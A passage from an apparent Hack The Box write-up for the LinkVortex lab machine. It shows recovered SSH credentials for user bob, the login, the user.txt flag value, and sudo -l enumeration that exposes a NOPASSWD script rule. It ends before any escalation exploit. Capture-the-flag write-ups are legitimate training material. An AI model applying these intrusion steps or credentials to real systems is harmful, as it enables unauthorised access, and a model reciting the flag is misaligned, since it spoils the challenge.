| Username | Password              |
| -------- | --------------------- |
| bob      | fibber-talented-worth |

Luckily for us the `credentials` worked on `SSH` and therefore we got access to the `user.txt` inside the `home directory` of `bob`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh bob@linkvortex.htb
The authenticity of host 'linkvortex.htb (10.129.118.139)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$
```

## user.txt

```c
bob@linkvortex:~$ cat user.txt 
c5fb63f091de1b0610cd1fda2148c9ec
```

## Enumeration

As `bob` we started a quick `enumeration` to check our `capabilities` for `privilege escalation`.

The user was just part of the `default groups` but had permission to execute a `custom script` with `sudo`.

```c
bob@linkvortex:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

```c
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
